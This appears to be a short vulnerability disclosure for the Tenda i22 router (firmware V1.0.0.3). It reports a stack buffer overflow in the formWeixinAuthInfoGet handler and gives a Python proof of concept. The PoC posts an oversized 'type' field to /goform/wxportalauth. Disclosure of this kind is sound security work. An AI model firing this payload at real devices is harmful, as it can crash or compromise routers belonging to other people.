


## formWeixinAuthInfoGet

tenda product: https://www.tenda.com.cn/download/detail-2747.html

### describe

tenda i22 V1.0.0.3 has a stack buffer overflow vulnerability



### PoC

```python
import requests

ip = "192.168.85.143"
url = "http://" + ip + "/goform/wxportalauth"
payload = b"a"*2000

data = {
    "type": "a" * 0x1000
}

response = requests.post(url, data=data)
print(response.text)
```

